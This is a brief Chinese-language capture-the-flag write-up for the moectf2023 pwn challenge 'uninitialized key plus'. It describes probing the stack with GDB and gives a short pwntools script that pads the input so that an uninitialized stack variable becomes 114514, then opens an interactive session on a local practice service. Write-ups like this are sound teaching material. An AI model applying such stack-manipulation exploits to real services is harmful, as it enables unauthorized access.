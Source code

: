 ```yaml
---
title: moectf2023 - uninitialized key plus
date: 2023/9/23 12:00:00
updated: 2024/7/25 12:34:56
tags:
    - noob
excerpt: 利用GDB探测并填充栈，成功将变量key设置为114514以解题。
---
```


## 文件分析

下载`uninitialized_key_plus`, 保护全开  
ghidra分析为64位程序

## 解题思路

和上次一样，使得栈上变量key==114514即可  
使用gdb发送'111122223333444455556666'进行探测（共读入24B），
发现输入无意义字符后key上留下来的值是`'6666'`，故填充前面段，将6666设为114514即可

## EXPLOIT

```python
from pwn import *
sh = remote("localhost", 41675)
sh.sendline(b'0'*20 + p32(114514))
sh.sendline(b'asdfasdf')
sh.interactive()
```

Done.
